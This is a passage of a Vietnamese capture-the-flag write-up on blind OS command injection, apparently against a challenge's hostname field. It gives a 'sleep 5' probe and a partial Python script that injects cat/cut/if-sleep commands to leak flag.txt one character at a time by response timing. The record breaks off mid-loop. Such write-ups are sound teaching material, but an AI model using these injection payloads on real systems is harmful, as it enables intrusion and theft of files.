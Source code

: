 ### Exploit
- Đầu tiên ta phải có một cách nào để chắc chắn rằng mọi câu lệnh ta chạy vào bên trong đều được thực hiện nhưng làm thế nào để biết được rằng các câu lệnh đã được chạy và được thực thi? Đây chính là lúc mà ta thực hiện [**Blind OS command injection with time delay**](https://www.youtube.com/watch?v=KbWn4L2dcHU&ab_channel=RanaKhalil) 
- Khái quát một chút ta sẽ sử dụng độ trễ của server phản hồi để chắc chắn rằng chúng ta đang thực hiện một câu lệnh "OS"
- Đầu tiên ta sẽ thử với payload như sau```hostname=; sleep 5;``` sử dụng burp suite để có thể quan sát kỹ hơn 
 ![](https://hackmd.io/_uploads/HyfmoOCoh.png)
- Ta có thể thấy request bị trả về với khoảng thời gian là  ![](https://hackmd.io/_uploads/SyO_iu0o3.png)
- Vậy làm thế nào để có thể đọc được file flag.txt đây ta sẽ viết một file script để lấy flag nói cách khác chính là **bruteforce** 
- Để có thể build được một file script thì ta cần hai thứ thứ nhất chính là làm thế nào để biết được các ký tự có trong file flag.txt sử dụng câu lệnh **OS** thứ hai làm thế nào để có thể in ra được ký tự đó và nhận về kết quả cuối cùng
- Ta sẽ sử dụng lệnh **cut** và lệnh **cat** để có thể làm được điều đó
 ![](https://hackmd.io/_uploads/HyHGpuAo2.png)
- Câu lệnh này có nghĩa là đọc file **api.py** rồi cut lấy ký tự đầu tiên của file **api.py**
- Vậy là ta có cách để có thể lấy được ký tự đầu tiên của file giờ là làm thế nào để có thể in nó ra một cách chính xác và sử dụng time delay để lấy được flag
- Nhưng như ta đã biết việc in ra kết quả của biến output là không thể khi mà biến output đã biến đổi thành đoạn văn bản ta không cần vậy làm thế nào để có thể chạy được script đây
- Ta đến hướng thứ hai chính là việc sử dụng **if else** trong bash để có thể thứ nhất là so sánh với ký hiệu được **cat** ứng với ký tự gì trong bản chữ cái và ta sẽ sử dụng câu lệnh sau
 ![](https://hackmd.io/_uploads/HkWLfKAjn.png)
- Ta có thể hiểu câu lệnh trên đang lấy ký tự đầu rồi so sánh với chữ "i" nếu giống nhau thì in ra 'same' nếu không thì in ra 'not same' vạy nếu như ta thay bằng sleep thì sao nếu như giống thì sleep 2 giây không giống thì không sleep
- Vậy giờ khi đã có trong tay hướng đi sao ta không bắt đầu vào code nhỉ?
 ```python=
import requests
import time 

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_.{}-' # dùng để bruteforce

URL = 'http://34.130.180.82:59119/' # url của đề bài

FLAG = ''

proxies={"http":"http://127.0.0.1:8080"} #localhost

for index in range(1,50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for c in CHARSET:
        # Đây là payload exploit
        # Nếu đúng thì tui cho nó ngủ 2s
        # Nếu sai thì không ngủ
        INJECT = "; cmd=`cat flag.txt | cut -c {vitri}`; if [ $cmd = '{bruteforce}' ]; then sleep 2; else sleep 0; fi; #".format(
            vitri=index,
            bruteforce=c
        )
        # Sử dụng phương thức POST để có thể gửi dữ liệu đến url
        r = requests.post(URL, {'hostname': INJECT},proxies=proxies)
        thoi_gian_phan_hoi = r.elapsed.total_seconds()
        # Thì khi kết quả HTTP trả về, nó sẽ lưu vào .text của biến r
        #print("Tui đang thử kí tự thứ ",index," nè: ", c, "(time:",thoi_gian_phan_hoi,")")
        if thoi_gian_phan_hoi > 2:
 ```